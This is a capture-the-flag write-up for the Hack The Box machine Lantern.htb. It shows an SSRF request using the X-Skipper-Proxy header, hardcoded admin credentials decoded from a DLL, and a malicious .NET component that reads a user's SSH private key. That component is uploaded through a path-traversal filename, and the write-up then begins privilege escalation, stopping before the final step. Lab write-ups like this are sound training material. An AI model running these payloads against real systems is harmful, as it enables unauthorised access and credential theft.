# Lantern.htb 

| Machine    | Difficulty | Week   | Season   |
|---------------|------------|--------|----------|
| Lantern.HTB   | Hard       | Week 3 | Season 6 |

## Recon

### Scanning and Enumeration

#### Rustscan

```bash
rustscan -a 10.129.94.69
```

Rustscan discovered three open ports:
- SSH
- HTTP
- 3000


#### WhatWeb Scan

```bash
whatweb http://lantern.htb/ -v
```


- The site appears to be an IT company where users can upload resumes at `http://lantern.htb/vacancies`.
- `http://lantern.htb:3000` hosts a LanternLogin page.

+ [Skipper Proxy ExploitDB](https://www.exploit-db.com/raw/51111)

<br>


- Attempted RCE via PDF injection but it was unsuccessful.
- Focused on port 3000.

Discovered endpoints while inspecting the console log of `http://lantern.htb:3000`:

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```

#### BurpSuite Extension

- Found a Blazor exploit Burp Suite extension [here](https://www.aon.com/cyber-solutions/aon_cyber_labs/new_burp_suite_extension_blazortrafficprocessor/).

Based on HTB Forum hints:
- SSRF on port 80:3000. [Skipper Proxy](https://www.exploit-db.com/raw/51111)
- Accessing `/_framework/blazor.boot.json` reveals all Blazor DLLs.
- Download `InternaLantern.dll` through SSRF.

```
https://www.exploit-db.com/raw/51111
```

Intercept the DLL request using Skipper Proxy:

```http
GET /_framework/InternaLantern.dll HTTP/1.1 
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

Successfully downloaded the DLL file by requesting response in browser.

### Decompiling DLL File

Use JetBrains DotPeek to browse the DLL. 


In `InternaLanding.Pages/Internal`, find base64 encoded employee details. Decode using [CyberChef](https://gchq.github.io/CyberChef).

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

Decoded:

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```

Credentials:

```
admin:AJbFA_Q@925p9ap#22
```
<br>

Use these credentials to log in at `http://lantern.htb:3000/`.



### Uploading a Shell

In the "Upload content" section, we can upload any file type and it is saved in `/var/components`



### Exploiting .NET Components

1. **Install .NET 6 SDK**:

    ```bash
    sudo apt install dotnet-sdk-6
    ```

2. **Create and Configure .NET Project**:

    ```bash
    dotnet new console -c sedlyf
    ```
    ```bash
    dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
    ```

3. **Update `Program.cs`**:

    ```csharp
    using Microsoft.AspNetCore.Components;
    using Microsoft.AspNetCore.Components.Rendering;
    using System.IO;

    namespace sedlyf
    {
        public class Component : ComponentBase
        {
            protected override void BuildRenderTree(RenderTreeBuilder builder)
            {
                base.BuildRenderTree(builder);

                // Read file content
                string file = File.ReadAllText("/home/tomas/.ssh/id_rsa"); //ssh key
                builder.AddContent(0, file);
            }
        }
    }
    ```

4. **Build the DLL**:

    ```bash
    dotnet build sedlyf.csproj -c Release
    ```

    The DLL is saved in `bin/Release/net6.0/sedlyf.dll`.

### Exploiting the Upload

Upload the DLL to `lantern.htb:3000`. The file upload page allows for arbitrary file uploads.

To circumvent directory restrictions, modify the filename to:

```
../../../../../../opt/components/sedlyf.dll
```

Intercept and modify the request with Burp Suite and Blazor Traffic Processor:

1. **Intercept and Send**:
   
   Right-click the request > Extensions > Blazor Traffic Processor > Send Body to BTP tab.

   


2. **Deserialize and Modify Path**:

   Adjust the path in the JSON to ensure it's pointing to the correct location.

   


3. **Upload and Execute**:

   Upload the modified request. To execute the code, enter `<your shell name>` in the search bar.
   
   

### Capturing User Flag

1. **Retrieve SSH Key**:

    ```bash
    chmod 600 id_rsa
    ```

2. **SSH into the Machine**:

    ```bash
    ssh -i id_rsa tomas@lantern.htb
    ```
    

3. **Read the User Flag**:

    ```bash
    cat /home/tomas/user.txt
    ```

### Privilege Escalation

1. **Check Mail**:

    ```bash
    cat /var/mail/$(whoami)
    ```
    

2. **Inspect Automation Script**:

    ```bash
    cat /root/automation.sh
    ```
    

   The script is not directly accessible, but it's being executed.

3. **Monitor the Process**:

    Use `procmon` to monitor process activities:

    ```bash
    ps -aef | grep automation
    ```

    

    ```bash
    sudo /usr/bin/procmon -p <Automation PID> -e write
    ```

    Save the output with F6 and quit with F9.

   Alternatively, use a script to monitor and capture output:

    ```bash
    #!/bin/bash

    OLD_PID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')

    while true; do
        NEWPID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')
        
        if [ "$OLD_PID" != "$NEWPID" ] && [[ -n "$NEWPID" ]]; then
            echo "We have a new PID! Old PID: $OLD_PID, New PID: $NEWPID"
            OLD_PID=$NEWPID
            sudo /usr/bin/procmon -p $NEWPID -e write -c nano$NEWPID.out
        fi
        
        sleep 5
    done
    ```

4. **Transfer and Analyze the Output**:

    ```bash
    scp -i id_rsa tomas@lantern.htb:/path/to/nano10720.out nano10720.out
    ```

   The output file is in SQLite format; use appropriate tools to analyze it.

This guide details the steps and methods used to compromise the Lantern.htb machine, capture the user flag, and escalate privileges. Ensure to handle all data with care and follow ethical guidelines while engaging in such activities.